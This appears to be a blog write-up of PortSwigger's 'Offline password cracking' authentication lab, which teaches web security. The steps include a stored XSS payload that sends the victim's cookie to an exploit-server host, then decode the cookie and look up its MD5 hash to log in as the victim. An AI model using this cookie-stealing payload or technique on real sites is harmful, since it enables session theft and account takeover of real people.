 ```yaml
---
layout: post
title:  "PortSwigger - Authentication - Lab 10"
date:   2024-06-05 18:40
image:  /images/portswigger/WebSecurityAcademy.png
tags:   [authentication]
categories: [PortSwigger]
---
```


# Lab 10 - Offline password cracking
><b>Lab Objective:</b>
<br/><br/>
This lab stores the user's password hash in a cookie. The lab also contains an XSS vulnerability in the comment functionality. To solve the lab, obtain Carlos's stay-logged-in cookie and use it to crack his password. Then, log in as carlos and delete his account from the "My account" page.
<br/>
<br/>
`Your credentials: wiener:peter`<br/>
`Victim's username: carlos`
<br/>
<br/>
<b>Reference:</b>
<br/>
<a href="https://portswigger.net/web-security/authentication/other-mechanisms/lab-offline-password-cracking">Port Swigger - Lab 10</a>
<br/>

### Solution
<hr/>

#### 1. With Burp running, use your own account to investigate the `Stay logged in` functionality. Notice that the `stay-logged-in cookie` is Base64 encoded.

#### 2. In the `Proxy > HTTP history` tab, go to the Response to your login request and highlight the `stay-logged-in` cookie, to see that it is constructed as follows: `username+':'+md5HashOfPassword`

#### 3. You now need to steal the victim user's cookie. Observe that the comment functionality is vulnerable to XSS

#### 4. Go to the exploit server and make a note of the URL.

#### 5. Go to one of the blogs and post a comment containing the following <a href="https://portswigger.net/web-security/cross-site-scripting/stored">stored XSS payload</a>, remembering to enter your own exploit server ID:
`<script>document.location='//YOUR-EXPLOIT-SERVER-ID.exploit-server.net/'+document.cookie</script>`

#### 6. On the exploit server, open the access log. There should be a `GET` request from the victim containing their `stay-logged-in` cookie

#### 7. Decode the cookie in Burp Decoder. The result will be: `carlos:26323c16d5f4dabff3bb136f2460a943`

#### 8. Copy the hash and paste it into a search engine. This will reveal that the password is `onceuponatime`

#### 9. Log in to the victim's account, go to the `My account` page, and delete their account to solve the lab.
<hr/>